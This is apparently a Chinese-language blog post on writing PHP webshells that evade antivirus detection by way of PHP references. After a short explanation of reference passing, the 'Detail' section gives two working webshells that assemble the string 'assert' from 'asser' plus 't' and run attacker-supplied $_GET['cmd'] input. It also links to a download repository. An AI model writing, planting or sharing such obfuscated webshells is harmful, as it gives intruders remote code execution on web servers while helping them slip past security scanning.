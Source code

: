 ```yaml
---
layout:     post
title:      \&引用免杀webshell
date:       2017-04-25
summary:    \&引用免杀webshell
categories: web
tags:
 - php
 - 引用
 - 免杀
---
```


### 0x00 php中的&

```
1.函数的参数引用
<?php
function test(&$a){ 
    $a=$a+100; 
    } 
    $b=1; 
    echo $b;//输出１ 
    test($b);   //这里$b传递给函数的其实是$b的变量内容所处的内存地址,通过在函数里改变$a的值就可以改变$b的值了 
    echo "<br>"; 
    echo $b;//输出101
?>

2.函数的返回引用
<?php
function &test()
{ 
    static $b=0;//申明一个静态变量 
    $b=$b+1; 
    echo $b; 
    return $b; 
}

$a=test();//这条语句会输出$b的值为１ 
$a=5; 
$a=test();//这条语句会输出$b的值为2
$a=&test();//这条语句会输出$b的值为3,这句相当于$a=&$b;
$a=5; 
$a=test();//这条语句会输出$b的值为6
?>

理解参考:
http://www.cnblogs.com/thinksasa/p/3334492.html
```

### 0x01 Detail

#### a)利用函数的参数引用免杀

```
<?php
function foo(&$var)
{
    $var=$var.'t';
}
$a="asser";
foo($a);
$a($_GET[cmd]);
```

#### b)利用函数的返回引用免杀

```
<?php
class talker{
    public $data = 'Hi';
    public function & get(){
        return $this->data;
    }
}

$aa = new talker();
$d = &$aa->get();
$d = $_GET[cmd];

function foo(&$var)
{
    $var=$var.'t';
}
$a="asser";
foo($a);
$a($aa->data);

```

本文代码下载<br>
<a href="https://github.com/3xp10it/xwebshell/tree/master/php/%26">download</a>
